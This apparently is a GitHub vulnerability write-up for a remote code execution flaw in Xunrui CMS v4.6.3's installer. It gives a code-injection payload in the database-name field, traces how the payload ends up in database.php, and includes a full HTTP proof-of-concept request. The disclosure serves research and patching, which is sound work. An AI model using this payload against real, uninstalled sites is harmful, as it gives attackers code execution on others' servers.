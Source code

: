 # xunruicms_rce<br>
The RCE is connected through the CMS installation interface<br>
# Xunrui CMS Installation Vulnerability<br>

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)<br>

## Payload:
``` exp;-- ---'];phpinfo();['```

###Vulnerability Reproduction:<br>
Normal installation of .database.php<br>
During installation, the process immediately jumps to step 3.<br>
File After Successful Exploitation:
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%871.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%872.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%873.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%874.png)
The file after exploitation shows how the vulnerability is exploited.

#Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . <br>

![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%875.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%876.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%877.png)
The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']<br>
However, bypassing the database creation query is required.<br>

###Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.<br>
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE<br>
Thus, the exploit is:<br>
```exp;-- ---'];phpinfo();['```

<br>###Dynamic Analysis:<br>
If the SQL query is successfully executed, the rest of the process proceeds smoothly.<br>
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php<br>
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%878.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%879.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%8710.png)
###Proof of Concept (PoC):<br>
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

###Reproduce the Issue:<br>
1.Remotely connect to the attacker's database.<br>
2.The other party did not install the CMS, and did not generate the lock file.<br>
